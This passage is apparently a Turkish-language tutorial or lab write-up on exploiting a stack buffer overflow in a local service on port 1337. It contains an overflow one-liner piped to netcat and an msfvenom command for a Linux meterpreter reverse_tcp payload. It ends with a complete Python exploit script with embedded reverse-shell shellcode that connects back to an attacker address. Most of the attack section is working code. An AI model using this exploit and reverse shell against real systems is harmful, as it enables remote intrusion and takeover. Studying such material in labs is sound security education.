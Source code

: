 python -c 'print "OVERFLOW "+"A"*35+"\x8d\x92\x04\x08"+"C"*12' | nc localhost 1337

"\x" koymamızın sebebi python'ın bu karakterleri hex olarak almasını sağlamaktır.Yoksa düz string olarak algılar ve onların hex karşılıklarını hafızaya yazar.
Şimdi *jmpesp* fonksiyonunun bu payload'u gönderdikten sonra çalışıp çalışmadığını kontrol edelim.
gdb'de break jmpesp diyoruz ve eğer çalışırsa burada durmasını bekleyeceğiz.
![enter image description here](https://i.ibb.co/0C14G8R/ov-breakjmp.png)

Gördüğünüz gibi jmpesp fonksiyonunu çalıştırabildik.Bu fonksiyon da ESP'nin işaret ettiği
hafıza alanına zıplayıp oradaki kodları çalıştırmayı deneyeceğinden bilgisayar için ne anlama geldiğini bilmediğimiz "C" karakterinin hex karşılığı yani "0x43" byte'ları çalışacak.
O zaman biz de anlamını bilmediğimiz byte'ları değil de işimize yarayacak byte'ları oraya koyalım ki program artık bizim istediğimizi yapsın :)

Artık karşıdan bi reverse shell almanın zamanı geldi.
Reverse shell'imizin kodunu, bilinen ismiyle shellcode'u burada kendimiz yazmayacağız çünkü o kendi başına bir yazı serisi isteyen bir konu.
O yüzden shellcode'umuzu msfvenom aracı ile üreteceğiz.Hem de bu bize ekstra bir çok özelliği barından meterpreter bağlantısı verecek.

Linux sistemlerde çalışacak shellcode üretimi msfvenomda şu şekilde yapılıyor.

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

Parametrelerimizi kendimize uygun tanımlayıp komutu çalıştıralım.

![enter image description here](https://i.ibb.co/ykshMgY/ov-shellcode.png)

Gördüğünüz gibi bu shellcode bizim tek satırda gönderdiğimiz"python -c" ile başlayan payload için hayli uzun.
Bu yüzden bir python script'i yazıp oradan işlerimizi halledelim.

 

    import socket
    tampon="OVERFLOW "
    tampon+="A"*35
    jmpesp="\x8d\x92\x04\x08"
    buf =  ""
    buf += "\x6a\x0a\x5e\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0"
    buf += "\x66\x89\xe1\xcd\x80\x97\x5b\x68\xc0\xa8\x02\x80\x68"
    buf += "\x02\x00\xad\x9e\x89\xe1\x6a\x66\x58\x50\x51\x57\x89"
    buf += "\xe1\x43\xcd\x80\x85\xc0\x79\x19\x4e\x74\x3d\x68\xa2"
    buf += "\x00\x00\x00\x58\x6a\x00\x6a\x05\x89\xe3\x31\xc9\xcd"
    buf += "\x80\x85\xc0\x79\xbd\xeb\x27\xb2\x07\xb9\x00\x10\x00"
    buf += "\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd\x80"
    buf += "\x85\xc0\x78\x10\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd"
    buf += "\x80\x85\xc0\x78\x02\xff\xe1\xb8\x01\x00\x00\x00\xbb"
    buf += "\x01\x00\x00\x00\xcd\x80"
    payload=tampon+jmpesp+buf
    s=socket.socket()
    s.connect(("localhost",1337))
    s.send(payload)
